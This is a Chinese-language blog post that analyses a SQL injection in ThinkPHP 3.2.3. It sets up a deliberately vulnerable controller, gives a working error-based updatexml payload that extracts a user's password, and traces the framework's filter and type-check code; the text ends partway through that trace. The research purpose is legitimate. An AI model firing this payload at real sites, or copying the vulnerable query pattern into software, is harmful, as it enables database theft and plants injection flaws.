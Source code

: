 <details><summary>太多了，展开查看</summary></details>

### 配置控制器
Application/Home/Controller/IndexController.class.php
```php
public function index()
{
$data = M('users')->find(I('GET.id'));
var_dump($data);
}
```
![image](https://y4er.com/img/uploads/20191127224711.jpg)

### payload
```
http://php.local/thinkphp3.2.3/?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```
### 分析
当我们简单传入`id=1'`时，跟着走一遍

`I()`函数中获取参数，会经过`ThinkPHP/Common/functions.php:391` `htmlspecialchars()`进行处理，最后在`ThinkPHP/Common/functions.php:442`回调`think_filter`函数进行过滤
```php
function think_filter(&$value)
{
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if (preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
        $value .= ' ';
    }
}
```
然后进入`ThinkPHP/Library/Think/Model.class.php:779`的`find()`方法，又会经过`ThinkPHP/Library/Think/Model.class.php:811` `_parseOptions()`方法
![image](https://y4er.com/img/uploads/20191127220223.jpg)
到这我们的id还是为`1'`的
![image](https://y4er.com/img/uploads/20191127226415.jpg)
跟进`_parseOptions()` `ThinkPHP/Library/Think/Model.class.php:681`
其中有类型验证`_parseType()`函数
```php
// 字段类型验证
if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join'])) {
    // 对数组查询条件进行字段类型检查
    foreach ($options['where'] as $key => $val) {
        $key = trim($key);
        if (in_array($key, $fields, true)) {
            if (is_scalar($val)) {
                $this->_parseType($options['where'], $key);
            }
        } elseif (!is_numeric($key) && '_' != substr($key, 0, 1) && false === strpos($key, '.') && false === strpos($key, '(') && false === strpos($key, '|') && false === strpos($key, '&')) {
            if (!empty($this->options['strict'])) {
                E(L('_ERROR_QUERY_EXPRESS_') . ':[' . $key . '=>' . $val . ']');
            }
            unset($options['where'][$key]);
        }
    }
}
```